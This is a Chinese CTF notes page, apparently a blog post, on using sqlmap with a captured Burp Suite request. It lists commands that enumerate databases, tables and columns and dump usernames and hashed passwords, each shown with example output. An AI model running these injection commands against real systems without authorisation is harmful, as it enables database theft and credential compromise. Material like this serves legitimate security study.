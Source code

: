 ```yaml
---
title: sqlmap
date: 2023-11-06 21:23:40
tags:
categories: CTF-Tricks
---
```


sqlmap使用笔记。

官网：[sqlmap: automatic SQL injection and database takeover tool](https://sqlmap.org/)

<!-- more -->

## 结合burpsuit

先使用burpsuit抓包，将请求包内容存入文件，如“burp.log"

## 智能模式

-l 后跟burp请求包文件，--batch 表示使用默认操作，-smart开启智能模式

```shell
sqlmap -l burp.log --batch -smart
```

### 查看数据库

```shell
sqlmap -l burp.log --batch -smart --dbs
```

输出（例）：

```plain
available databases [2]:
[*] information_schema
[*] Inject_sql
```

### 查看数据库里的表

```shell
sqlmap -l burp.log --batch -smart -D Inject_sql --tables 
```

输出（例）：

```plain
Database: Inject_sql
[1 table]
+------+
| auth |
+------+
```

### 查看数据库表里的列

```shell
sqlmap -l burp.log --batch -smart -D Inject_sql -T auth --columns 
```

输出（例）：

```plain
Database: Inject_sql
Table: auth
[2 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| password | varchar(255) |
| username | varchar(255) |
+----------+--------------+
```

### 查看数据库表列里的值

```shell
sqlmap -l burp.log --batch -smart -D Inject_sql -T auth -C password --dump 
```

输出（例）：

```plain
+----------------------------------+
| password                         |
+----------------------------------+
| 098f6bcd4621d373cade4e832627b4f6 |
| 202cb962ac59075b964b07152d234b70 |
| 4aeed0301e36d0e7d405739646ef8ae6 |
| 4e7bdb88640b376ac6646b8f1ecfb558 |
| 72b938f302b9db9b214d9c779c975634 |
| 96e98952b440e8d0361c552fb0e67bc6 |
| e10adc3949ba59abbe56e057f20f883e |
+----------------------------------+
```

```shell
sqlmap -l burp.log --batch -smart -D Inject_sql -T auth -C username --dump 
```

输出（例）：

```
Database: Inject_sql
Table: auth
[7 entries]
+----------+
| username |
+----------+
| 123      |
| admin    |
| lisi     |
| testuser |
| wangwu   |
| zhangsan |
| zhaoliu  |
+----------+
```

### 其它

**对表dump**：也可以直接对表进行dump

**选择注入类型**： 使用 `--technique` 选项可以指定使用的注入技术，如：`--technique=U` （联合查询注入，有具体的payload）或 `--technique=B` （盲注，没有确定的payload）等
